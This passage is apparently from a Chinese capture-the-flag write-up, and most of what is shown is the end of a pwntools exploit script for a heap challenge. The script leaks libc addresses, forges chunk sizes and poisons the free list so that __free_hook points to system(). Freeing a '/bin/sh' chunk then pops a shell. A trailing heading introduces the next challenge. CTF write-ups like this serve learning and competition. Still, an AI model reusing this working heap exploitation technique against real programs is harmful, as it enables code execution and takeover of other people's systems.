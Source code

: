 ```
        a = ord(addr[0x30+i])
        if a == 0xa:
            a = 0
        libc_addr += a*mod
        mod*=0x100
    print(hex(libc_addr))
    print(hex(libc.sym['__malloc_hook']+0x10+88))
    libc_base = libc_addr - 88 -libc.sym['__malloc_hook']-0x10
    print('libc_base:',hex(libc_base))
    free_addr = libc_base+libc.sym['__free_hook']
    print('free_addr:',hex(free_addr))
    system_addr = libc.sym['system']+libc_base
    pause()

    for i in range(5):
        add(i, b'aaa', b'ccc')


    dlt(11)
    payload ='a'*0xe0+p64(0)+'\xf1'
    add2(11, b'aaaa', payload)

    dlt(12)

    payload = 'a'*0x10
    add(15, b'aaaa', payload)   #0x30
    add(16, b'aaaa', b'cccc')   #0xf0
    pause()
    dlt(13)
    dlt(16)

    payload = 'a'*0x20+p64(0)+p64(0xf1)+p64(free_addr)
    edit(15, payload)

    add(17, b'/bin/sh\x00', b'/bin/sh\x00')

    payload = p64(system_addr)
    add(18, b'/bin/sh', payload)

    dlt(17)

    # pause()
    p.interactive()
Pwn()
```

## 第三场

### <a class="reference-link" name="HarmoShell"></a>HarmoShell
